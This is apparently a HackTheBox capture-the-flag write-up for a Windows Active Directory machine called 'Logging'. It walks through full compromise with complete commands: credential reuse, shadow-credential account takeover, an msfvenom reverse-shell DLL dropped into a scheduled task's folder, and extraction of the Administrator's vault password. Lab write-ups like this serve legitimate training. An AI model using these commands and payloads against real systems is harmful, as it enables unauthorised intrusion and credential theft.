{HackTheBox_Machine_WriteUp}

---

| Machine Name | Logging        |
| ------------ | -------------- |
| OS           | Windows        |
| Difficulty   | Medium         |
| IP Address   | 10.129.245.130 |
| Release Date | 18 APRIL 2026  |
| Pwned Date   | 19 APRIL 2026  |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
##### 3. Initial Access 
##### 4. Lateral Movement 
##### 5. Privilege Escalation
##### 6. Post-Exploitation 
##### 7. Proof's
##### 8. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Name" machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 


---

#### 2. Reconnaissance

##### 2.1. Port Scanning

```
sudo nmap -sC -sV -p- 10.129.245.130 --min-rate 3000 -oN nmap_scan_logging
```

Finding :

53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  ssl/unknown
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
49753/tcp open  msrpc         Microsoft Windows RPC
49791/tcp open  msrpc         Microsoft Windows RPC
49798/tcp open  msrpc         Microsoft Windows RPC


Default Creds : wallace.everette / Welcome2026@


---

#### 3. Initial Access

I have checked default cred's against smb and ldap that worked.

```
nxc smb 10.129.245.130 -u wallace.everette -p Welcome2026@
nxc ldap 10.129.190.53 -u wallace.everette -p Welcome2026@
```


**SMB SHARE Enumerated** :

```
smbmap -d logging.htb -H 10.129.245.130 -u wallace.everette -p Welcome2026@
```

Found a LOGS share which is not noraml. Checked the share with smbclient and a log file  reveals password for **svc_recover**y user.

For more information, i have collected bloodhound data using bloodhound-python.

```
bloodhound-python -u 'wallace.everette' -p 'Welcome2026@' -d 'logging.htb' -c All --zip -ns 10.129.245.130
```

BloodHound data shows that svc_recovery user has GenericWrite Permission over MSA_HEALTH$ user.
This lead's to account take over of MSA_HEALTH$.Check below steps for more information.

```
### getting tgt ticket for user svc_recovey

impacket-getTGT logging.htb/svc_recovery:'Em3rg3ncyPa$$2026' -dc-ip 10.129.245.130

### Using tgt ticket getting hash for user MSA_HEALTH$.

export KRB5CCNAME=svc_recovery.ccache

certipy-ad shadow auto -u 'svc_recovery@logging.htb' -k -account 'msa_health$' -dc-ip 10.129.245.130 -target DC01.logging.htb

```


**NT HASH FOUND :**

Using Evil-WinRM we will get shell on server,but before that we have to match server clock to our machine clock.

```
### Syncing our machine time wrt htb machine.

sudo ntpdate 10.129.245.130

### getting shell

evil-winrm -i 10.129.245.130 -u 'msa_health$' -H '603fc2************85c5'

```


---

#### 4. Lateral Movement

Document folder of this user have a file called monitor.ps1.Code inside that script tells us about a task called UpdateChecker Agent.

I have checked scheduled service on server and found UpdateChekcer Agent their and got location for that task C:\Program Files\UpdateMonitor\ . In that folder their is a file called UpdateMonitor.exe .

Analyzing that exe tell's more about,how that task get handled.We have noticed that the task is looking for a settings_update.dll file inside C:\ProgramData\UpdateMonitor\ folder.DLL file should be in a zip file.So we have to convert that dll file to zip.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.245.130 LPORT=4444 -a x86 --platform windows -f dll -o settings_update.dll

zip Settings_Update.zip settings_update.dll

rlwrap nc -lnvp 4444

```

Upload that file to C:\ProgramData\UpdateMonitor\ folder and wait for 3 minute to get shell.

**Shell as user jaylee.clifton gotten.**

**user.txt captured.**

---

#### 5. Privilege Escalation

I have transferred the winPEAS.exe on server and found that windows vault has the Administrator password. HackTricks module  in the reference section will tell you how to extract that password.

```
Import-Module winpeas.ps1
./winpeas.ps1
```

Password Found : Parolapt***********#

We will use that extracted password to get a TGT ticket from server.

```
impacket-getTGT logging.htb/administrator:'password' -dc-ip 10.129.245.130
```

We will use that ticket to get shell as an Administrator.

```
export KRB5CCNAME=administrator.ccache

### check ticket

klist

### nxc smb 10.129.245.130 -u 'administrator' -k --use-kcache -x 'whoami'
```

In command section we can use the revshell for windows and get shell back as an Administrator.

**root.txt captured.**

---

#### 
#### 6. Proof's









































---

#### 7. References

https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html

---

{HackTheBox_Machine_WriteUp}